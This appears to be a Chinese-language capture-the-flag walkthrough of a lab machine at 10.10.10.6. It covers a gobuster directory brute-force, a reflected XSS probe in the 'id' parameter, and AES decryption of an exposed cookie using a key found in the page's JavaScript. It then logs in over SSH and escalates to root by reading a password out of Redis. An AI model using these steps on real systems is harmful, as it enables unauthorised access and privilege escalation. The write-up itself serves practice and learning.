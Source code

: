 # 服务扫描

使用 nmap 扫描出靶机为 10.10.10.6，
开放端口为 22、80，

使用 gobuster 爆破目录

```
sudo gobuster dir -u http://10.10.10.6 -w /usr/share/dirb/wordlists/common.txt
```

![[Pasted image 20250514202421.png]]

# WEB 渗透

网页点击图片可以查看详情

![[Pasted image 20250514202536.png]]

在目录爆破发现的网站中可以找到 javascript 源码

![[Pasted image 20250514202614.png]]


拼接字符串可以实现注入，
拼接字符串发现 xss 漏洞


```
10.10.10.6/opus-details.php?id=<script>alert(1)</script>
```

![[Pasted image 20250514202806.png]]

暴露 cookie

![[Pasted image 20250514202852.png]]

cookie 和 js 源码发现的 decrypt 一起使用 AES 解密
[AES 解密](https://www.sojson.com/encrypt_aes.html)

![[Pasted image 20250514203127.png]]

# Linux 提权

连接 ssh

```
ssh auxerre@10.10.10.6    
```

下载 Linpeas 发现 redis 开放，

```
ps aux

ps aux | grep "redis"

redis-cli

keys *

get rootpass

su root
```